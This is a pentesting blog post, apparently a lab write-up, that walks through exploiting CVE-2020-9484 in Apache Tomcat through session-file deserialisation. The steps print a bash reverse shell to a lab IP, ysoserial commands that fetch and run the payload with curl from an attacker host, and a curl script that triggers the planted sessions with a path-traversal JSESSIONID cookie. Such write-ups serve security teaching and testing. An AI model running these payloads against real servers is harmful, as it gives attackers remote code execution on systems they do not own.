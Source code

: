 ```yaml
---
title: Apache Tomcat Server - Deserialization of Untrusted Data (RCE)
author: Udesh
date: 2020-12-29
categories: [Pentesting]
tags: [Pentesting]
---
```


# Apache Tomcat Server - Deserialization of Untrusted Data (RCE)

Apache Tomcat is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies. In this post we will dive into the analaysis of a vulnerability in the apache tomcat server 9.0.27. 
- [CVE - 2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484 "CVE - 2020-9484")

## Introduction
The vulnerability allows a remote attacker to execute arbitrary code on the target system. The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

## Prerequisites
1. The attacker is able to upload a file with arbitrary content.
2. We have to know the location where the file is uploaded
3. The PersistentManager is enabled and it is using a FileStore.

## Exploit
  Tomcat provide two implementations for session managment. 
- StandardManager
- PersistentManager

When you are using PersistentManager first, it checks the session is exists in the memory, if the session does not exist in memory it will check the session on the disk. When Tomcat receives a HTTP request with a JSESSIONID cookie, it will ask the Manager to check if this session already exists. Because the attacker can control the value of JSESSIONID sent in the request, what would happen if he put something like “JSESSIONID=../../../../../../tmp/12345“?

1. Tomcat requests the Manager to check if a session with session ID“../../../../../../tmp/12345 exists.
2. It will first check if it has that session in memory.
3. It does not. But the currently running Manager is a PersistentManager, so it will also check if it has the session on disk.
4. It will check at location directory + sessionid + ".session", which evaluates to “./session/../../../../../../tmp/12345.session“
5. If the file exists, it will deserialize it and parse the session information from it.

### Step 1:

In this case, I found my file upload path in server exception. So, my file path is /opt/samples/uploads

![1.PNG]({{site.baseurl}}/assets/img/post/post7/1.PNG)

### Step 2:
We need to create our payload. In here i used simple bash reverse shell.
```bash
#! /bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.102/8888 0>&1"
```
![2.PNG]({{site.baseurl}}/assets/img/post/post7/2.PNG)

### Step 3:
Create a serialized session file to download our payload with curl. To do this, I used ysoserial jar file. download it from [here](https://github.com/frohoff/ysoserial "here").

```bash
java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections2 'curl http://10.10.14.102/payload.sh -o /tmp/payload.sh' > downloadPayload.session
```
Then, Create a second serialized session file to execute our payload.

```bash
java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections2 'bash /tmp/payload.sh' > executePayload.session
```
Finally, we have created two session files as our malicious session payload. 

![3.PNG]({{site.baseurl}}/assets/img/post/post7/3.PNG)

### Step 4: 
Now, We need to create bash script for send curl command  with cookie and our malicious files.

```bash
#! /bin/bash
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JESSIONID=../../../opt/sample/uploads/downloadPayload' -F 'image=@downloadPayload.session'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JESSIONID=../../../opt/sample/uploads/executePayload' -F 'image=@executePayload.session'
```
Note: The server address `10.10.10.205:8080` is our tomcat server and `../../../opt/samples/uploads/` is the file upload path.

![4.PNG]({{site.baseurl}}/assets/img/post/post7/4.PNG)

### Step 5:
Finally, Setup the listner for the reverse shell and web server for the payload downloaded by the target.

![5.PNG]({{site.baseurl}}/assets/img/post/post7/5.PNG)

Now you can execute the curl bash script which we created in step 4 and get the reverse shell as the tomcat user. 😎

## References 
- https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
- https://github.com/frohoff/ysoserial

